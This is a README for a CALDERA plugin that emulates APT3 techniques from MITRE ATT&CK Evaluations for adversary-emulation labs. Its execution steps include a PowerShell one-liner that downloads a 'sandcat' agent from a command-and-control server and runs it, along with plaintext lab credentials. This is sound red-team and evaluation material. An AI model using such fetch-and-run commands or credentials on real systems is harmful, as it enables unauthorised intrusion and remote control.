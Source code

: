 # CALDERA plugin: Eval

## Overview

A plugin supplying CALDERA with the TTPs used within the ATT&CK Evaluations Round 1 (APT3).
For more information see https://attackevals.mitre.org/about-attack-evaluations.html

1. Plugin Installation
2. Lab Setup
3. Execution

## Installation
Clone the Eval plugin into the caldera/plugin directory
```commandline
git clone https://github.com/mitre-attack/evals_caldera.git
```
Add Eval plugin to CALDERA config `conf/local.yml`
```yaml
plugins:
  - evals_caldera
```

Fill out facts in `data/facts/` specific to your setup.

## Environment Setup
[Full Round 1 Environment](https://attackevals.mitre.org/methodology/round1/environment.html)

Minimum requirements:
- Initial host exists within a windows domain
- Remote shared drive is mounted

## Execution

Please read the [full documentation](https://github.com/mitre/caldera/wiki/Plugins-evals) for this plugin.

## The Shire Mordor Environment

### Setup
[Shire CloudFormation Deployment](https://blacksmith.readthedocs.io/en/latest/mordor_shire.html)

[Shire Mordor Environment](https://mordor.readthedocs.io/en/latest/mordor_shire.html)

### Execution

1. RDP to the public ip of IT001.shire.com
   * Login - Administrator:P1ls3n! 
   * Launch an admin CMD
   * Close out of the RDP sesion but do not logout the Administrator
2. RDP to the public ip of IT001.shire.com
   * Login - pgustavo:W1n1!2019
   * Launch an admin CMD and a non-admin PowerShell
   * Execute the PowerShell command:    
      ```
$url="http://172.18.39.8:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);C:\Users\Public\sandcat.exe -server http://172.18.39.8:8888 -group evals_caldera -v;
      ```
   * The 54ndc47 agent should now be checked in with CALDERA (172.18.39.8)

3. Browse to the CALDERA UI `(http://CALDERAPublicIp:8888)`
   * Login - wardog:B3tt3r!
   * Start an operation using the [ATT&CK Eval APT3 - Full](https://github.com/d4weiss/evals_caldera/blob/master/data/adversaries/ef93dd1b-809b-4a0b-b686-fef549cabbe4.yml) adversary profile

